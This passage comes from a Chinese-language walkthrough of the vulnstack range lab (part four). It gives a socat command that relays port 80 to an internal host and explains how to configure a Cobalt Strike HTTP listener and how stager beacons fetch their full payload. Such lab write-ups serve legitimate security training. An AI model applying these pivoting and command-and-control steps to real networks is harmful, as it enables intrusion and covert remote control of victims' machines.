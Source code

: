 <img src="vulnstack靶场系列四/image-20231226154523689.png" alt="image-20231226154523689" style="zoom:67%;" />		



由于此脚本执行需要安装impacket库，我们可以通过此命令来安装：`apt-get install python-impacket`

安装完后使用socat命令进行流量转发：`socat TCP4-LISTEN:80,fork TCP4:192.168.47.188:80`

![image-20231218223924779](vulnstack靶场系列四/image-20231218223924779.png)	



CobaltStrike新建一个HTTP监听，名为WebHTTP，IP地址应填写为Web机的内网IP

> `HTTP Host (Stager)`指定的IP地址是用于初始阶段的Stager所连接的服务器，当你生成一个stager类型的beacon并上传至目标主机后，目标主机会尝试从`HTTP Host (Stager)`指定的IP地址下载完整的payload，若你使用的stageless的beacon，那么此选项就不会发挥作用
